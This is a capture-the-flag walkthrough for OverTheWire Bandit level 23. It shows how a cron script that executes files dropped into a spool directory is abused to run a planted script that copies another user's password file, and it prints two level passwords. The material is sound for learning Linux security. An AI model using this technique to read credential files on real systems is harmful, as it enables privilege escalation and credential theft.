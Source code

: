 <h1>Bandit 23</h1>

<h2 id="level-goal">Level Goal</h2>
<p>A program is running automatically at regular intervals from
<strong>cron</strong>, the time-based job scheduler. Look in <strong>/etc/cron.d/</strong> for
the configuration and see what command is being executed.</p>

<p><strong>NOTE:</strong> Looking at shell scripts written by other people is a
very useful skill. The script for this level is intentionally made
easy to read. If you are having problems understanding what it does,
try executing it to see the debug information it prints.</p>

<h2 id="commands-you-may-need-to-solve-this-level">Commands you may need to solve this level</h2>
<p>cron, crontab, crontab(5) (use “man 5 crontab” to access this)</p>


<h1>Solution</h1>

```
user@host:~$ ssh bandit23@bandit.labs.overthewire.org -p 2220
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n

bandit23@bandit:~$ ls
bandit23@bandit:~$ ls /etc/cron.d/
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

If we have a file that is owned by ourself in that directory, it will be executed!

```
bandit23@bandit:~$ mkdir /tmp/mytmp
bandit23@bandit:~$ vim /tmp/mytmp/runme.sh
  #!/bin/bash
  cat /etc/bandit_pass/bandit24 >> /tmp/mytmp/psswrd.txt
bandit23@bandit:~$ touch /tmp/mytmp/psswrd.txt
bandit23@bandit:~$ chmod 777 -R /tmp/mytmp/
bandit23@bandit:~$ cp /tmp/mytmp/runme.sh /var/spool/bandit24/runme.sh
```

And after waiting a minute:

```
bandit23@bandit:~$ cat /tmp/mytmp/psswrd.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

[bandit level 22](bandit/tasks/bandit22.md)
[bandit level 24](bandit/tasks/bandit24.md)
